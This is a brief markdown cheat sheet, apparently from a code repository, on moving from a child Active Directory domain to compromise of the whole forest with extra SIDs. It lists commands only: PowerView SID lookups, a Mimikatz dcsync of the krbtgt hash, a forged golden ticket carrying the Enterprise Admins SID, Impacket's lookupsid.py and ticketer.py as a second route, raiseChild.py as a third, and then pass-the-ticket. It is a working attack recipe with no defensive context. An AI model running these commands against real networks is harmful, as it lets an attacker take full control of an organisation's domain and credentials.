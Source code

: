 # Child Domain to Forest Compromise - extra SIDs (parent/child) (child/parent)

#### 1) Golden Ticket

 - Get-DomainSID -Domain DOMAIN (Powerview)

 - Get-DomainSID -Domain TARGET_DOMAIN (Powerview)

 - mimikatz lsadump::dcsync /domain:DOMAIN /user:DOMAIN\krbtgt

 - mimikatz kerberos::golden /user:Administrator /krbtgt:KRBTGT_HASH /domain:DOMAIN /sid:USER_SID /sids:ROOT_DOMAIN_SID-519 /ptt

## OR

 - lookupsid.py -domain-sids DOMAIN/USER:'PASSWORD'@DC_IP 0

 - ticketer.py -nthash CHILD_KRBTGT_HASH -domain-sid CHILD_SID -domain CHILD_DOMAIN -extra-sid PARENT_DOMAIN_SID-519 goldenuser

## OR

 - raiseChild.py DOMAIN/USER:'PASSWORD'

### With these attacks, we perform Pass-the-Ticket
